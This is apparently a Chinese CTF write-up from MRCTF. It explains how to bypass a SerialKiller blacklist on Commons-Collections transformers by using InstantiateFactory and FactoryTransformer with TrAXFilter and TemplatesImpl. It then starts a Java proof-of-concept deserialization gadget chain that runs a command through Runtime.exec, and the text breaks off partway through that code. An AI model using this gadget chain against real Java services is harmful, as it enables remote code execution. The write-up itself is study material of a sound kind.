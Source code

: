 # 前言

早就根据网上的文章复现了CC1，但是没去研究过关于这个绕过的，最近打MRCTF看到他把之前用到的transformer这些东西都过滤，都不知道怎么办，后面看W&M的大佬们的wp，他们用了一些其他的类来做到最后的命令执行

过滤的类

![image-20220428195620691](images/1.png)

他这里是通过serialkiller来过滤的，这个东西的话其实是可以用JRMP反序列化对实现一个对应绕过的，具体可以参照`DDCTF2019 再来一杯java`

但是题目是不出网的，就打不通

# Bypass

这里可以看到主要是ban掉的一些之前见过的transformer类，对后面的TemplatesImpl加载字节码并没有相应的过滤，这里看师傅wp提到的就是通过`InstantiateFactory`和`FactoryTransformer`类来实现一个绕过，我就去看了一下，发现确实也有一个和`InstantiateTransformer`相似的实例化一个类的操作，然后就可以去调用TrAXFilter类的构造器，接下来就和CC3 是一样的了

这里我就拿CC5的入口点（因为是通杀的）和这里拼接一下拿到了下面这个poc

```
package NewCC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Newcc {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
```